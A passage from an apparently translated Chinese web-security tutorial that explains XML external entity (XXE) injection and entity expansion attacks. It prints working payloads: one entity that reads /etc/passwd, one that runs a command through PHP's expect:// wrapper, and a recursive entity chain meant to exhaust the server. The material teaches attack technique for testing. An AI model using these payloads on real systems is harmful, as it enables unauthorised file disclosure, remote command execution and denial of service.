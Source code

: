 在这里，我们创建了一个名为`internal-entity`的实体，其中包含`"boss"`值，然后我们使用该实体替换登录值，该值反映在响应中。这意味着通过该实体加载的任何内容都将由服务器处理和反映。

尝试按如下方式加载文件：

```
<!DOCTYPE test [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]> 
```

![](img/00162.jpeg)

使用`SYSTEM`定义外部实体。这将加载一个文件（`/etc/passwd`，服务器在其响应中显示结果。

如果解析器配置不正确，并且加载了`expect`PHP 模块，您还可以通过 XES 获得远程执行：

```
<!DOCTYPE test [  <!ENTITY xxe SYSTEM "expect://uname -a" >]> 
```

# 实体扩展攻击

即使解析器不允许外部实体，允许内部实体仍然可能被恶意用户利用，并导致服务器中断。当所有 XML 解析器用定义的值替换实体时，可以创建一组递归实体，以便服务器可以处理大量信息，直到无法响应为止。

这称为**实体扩展攻击**。以下结构是一个简单的概念证明：

```
<!DOCTYPE test [  
<!ENTITY entity0 "Level0-"> 
<!ENTITY entity1 "Level1-&entity0;"> 
<!ENTITY entity2 "Level2-&entity1;&entity1;"> 
<!ENTITY entity3 "Level3-&entity2;&entity2;&entity2;"> 
<!ENTITY entity4 "Level4-&entity3;&entity3;&entity3;&entity3;"> 
<!ENTITY entity5 "Level5-&entity4;&entity4;&entity4;&entity4;&entity4;"> 
]> 
<reset><login>&entity0;</login><secret>Any bugs?</secret></reset> 
```
